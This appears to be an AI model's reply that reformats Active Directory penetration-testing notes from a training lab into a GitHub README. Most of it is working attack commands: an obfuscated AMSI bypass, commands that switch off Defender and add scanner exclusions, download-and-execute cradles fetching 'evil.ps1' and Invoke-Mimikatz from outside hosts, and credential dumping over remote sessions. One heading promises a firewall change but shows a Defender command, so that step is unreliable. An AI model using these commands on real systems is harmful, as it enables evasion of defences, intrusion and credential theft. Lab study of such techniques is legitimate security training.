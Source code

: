 To format the given content in a clean and readable manner for a GitHub repository, it's best to use proper Markdown syntax. This will enhance readability and make it easier for others to follow along. Here's how you can structure your content:

<img src="../Kerberos_files/image001.png" width="700" height="500">


```markdown
# PowerShell Scripts and Enumeration Techniques

This repository contains various PowerShell commands and scripts used for domain enumeration, local admin access, AMSI bypass, and other security-related tasks. Below are examples and explanations of various techniques that may be useful for penetration testing, system administration, and security auditing.

## 1. Domain Information Retrieval

### Command to Retrieve Domain Information

```bash
C:\Users\Naveen>cmd /c "hostname & whoami & ipconfig & whoami /priv"
```

### Get Domain Information Using PowerShell

```powershell
PS C:\Users\student157> [System.Net.Dns]::GetHostByName(($env:computerName))
PS C:\Users\student157> $ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
PS C:\Users\student157> $ADClass::GetCurrentDomain()
```

## 2. PowerShell Script Execution Examples

### Loading PowerShell Scripts

- Load a PowerShell script using dot sourcing:
  ```powershell
  PS . C:\AD\Tools\Powershell.ps1
  ```

- Import a module:
  ```powershell
  Import-Module <modulename>.psd
  ```

- List all commands in a module:
  ```powershell
  Get-Command -Module <modulename>
  ```

### Get Help for PowerShell Commands

- Get help for `Get-NetGroup`:
  ```powershell
  get-help Get-NetGroup
  get-help Get-NetGroup -examples
  get-help Get-NetGroup -full
  get-help Get-NetGroup -detailed
  show-command Get-NetGroup
  Update-Help
  ```

## 3. Exclusion Adding for Specific Paths

### Add Exclusion Path for Anti-Virus

```powershell
powershell -inputformat none -outputformat none -NonInteractive -Command "Add-MpPreference -ExclusionPath 'C:\AD'"
```

### Script Block Example for Disabling AMSI

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## 4. Disabling Anti-Virus Real-Time Protection

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## 5. PowerShell Script Execution Bypass

- Bypass Execution Policy:
  ```powershell
  powershell -ep bypass
  powershell -ExecutionPolicy bypass
  ```

- Run PowerShell command with encoded string:
  ```powershell
  powershell -encodedcommand <encoded_command>
  ```

## 6. Finding Local Admin Access

### Enumerate Local Admin Access

```powershell
PS C:\AD\Tools> Find-LocalAdminAccess -Verbose
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-stud157.dollarcorp.moneycorp.local
PS C:\AD\Tools> . .\Find-WMILocalAdminAccess.ps1
PS C:\AD\Tools> Find-WMILocalAdminAccess -ComputerFile .\computers.txt
```

### Checking for Domain Admin Sessions

```powershell
PS C:\AD\Tools> Invoke-UserHunter -Verbose   
PS C:\AD\Tools> Invoke-UserHunter -Verbose -GroupName "rdpusers"
PS C:\AD\Tools> Invoke-UserHunter -CheckAccess
PS C:\AD\Tools> Invoke-UserHunter -stealth
```

### Enumerate Sessions on Any Machine

```powershell
PS C:\AD\Tools> Get-NetSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## 7. Remote Script Execution

### Loading PowerShell Scripts Remotely

- Using `iex` (Invoke-Expression) for remote script execution:
  ```powershell
  iex (New-Object Net.WebClient).DownloadString('http://192.168.230.1/evil.ps1')
  ```

### Download and Execute Remote Payload

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

## 8. Language Modes in PowerShell

PowerShell has four language modes:

- No Language
- Constant Language
- Restricted Language
- Full Language Mode

## 9. Finding Local Admin Access on Specific Machines

```powershell
PS C:\AD\Tools> Find-LocalAdminAccess
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## 10. Disable Firewall Incoming Connections

- Disable firewall incoming connections to allow reverse shell:
  ```powershell
  Set-MpPreference -DisableRealtimeMonitoring $true
  ```

## 11. Using `Invoke-Mimikatz` for Credential Dumping

### Load and Execute Mimikatz

```powershell
iex (iwr http://172.16.100.157/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

- Dump hashes using Mimikatz:
  ```powershell
  Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
  ```

## 12. Handling Application Control (AppLocker)

- Enum AppLocker policies:
  ```powershell
  Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
  ```

## Conclusion

This repository provides essential commands and scripts for penetration testing and domain administration. Always ensure you have proper authorization before using these techniques in any environment.
```

### Key Elements:
1. **Headers:** Use headers (`#`, `##`, `###`) to structure the content.
2. **Code Blocks:** Wrap command examples in triple backticks (```) to make them stand out.
3. **Bullet Points:** Use bullets (`-`) to list steps or options.
4. **Inline Code:** Use single backticks (`` ` ``) for inline code snippets.

This format will make the document easy to read, navigate, and share on GitHub.
